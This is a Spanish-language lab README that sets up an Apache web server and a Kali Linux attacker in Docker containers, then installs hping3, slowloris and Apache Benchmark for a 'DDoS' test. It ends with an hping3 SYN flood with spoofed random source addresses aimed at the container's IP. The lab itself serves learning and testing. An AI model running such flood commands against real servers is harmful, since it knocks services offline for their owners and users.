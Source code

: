 # Ubuntu
En una terminal con docker se ejecutaran los siguientes comandos
## Crear contenedor de Ubuntu 
docker run -dit --name servidor-apache-prueba -p 80:80 ubuntu

## Ejecutar instancia de Ubuntu
docker exec -it servidor-apache-prueba bash

## Actualizar sistema Ubuntu
apt update -y && apt upgrade -y

## Dentro de la instancia de ubuntu instalar apache server
apt install -y apache2

## Cargar mensaje a la pagina web de apache server
echo "Hola, soy un servidor con apache server, si ves este mensaje el servidor esta activo" > /var/www/html/index.html

## Iniciar servicio de apache
service apache2 start

## En el navegador local ingresa a la pagina web del servidor de apache
htttp://localhost:80

# Kali Linux
En una terminal distinta con docker ejecutar los siguientes comandos para montar nuestro contenedor de Kali Linux para realizar las pruebas.

## Crear contenedor con Kali Linux
docker run -dit --name kali-testing kalilinux/kali-rolling

## Ejecutar instancia de Kali Linux
docker exec -it kali-testing bash

## Actualizar el sistema de Kali
apt update -y && apt upgrade -y

## Instalar dependencias necesarias para el ataque DDoS (Apache Benchmark, Hping3, Slowloris)
apt install -y hping3 slowloris apache2-utils

# Iniciando el ataque al IP y puerto del servidor de apache
## Ataque de inundacion TCP aleatoria
hping3 -S --flood --rand-source -p 80 172.17.0.2
